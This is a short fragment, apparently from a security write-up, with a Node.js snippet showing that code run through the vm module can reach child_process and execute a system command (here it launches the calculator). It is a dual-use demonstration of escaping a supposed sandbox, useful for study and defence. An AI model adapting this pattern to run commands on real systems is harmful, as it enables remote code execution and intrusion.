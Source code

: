 [![](assets/1706496096-39ce6adc2473215b8e1781e48d234641.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126140416-bc53c496-bc10-1.png)

```plain
const vm = require('vm');

sx = {
    'name': 'chiling',
    'age': 18
}

context = vm.createContext(sx)
const result = vm.runInThisContext(`process.mainModule.require('child_process').exec('calc')`, context);
console.log(result)
```

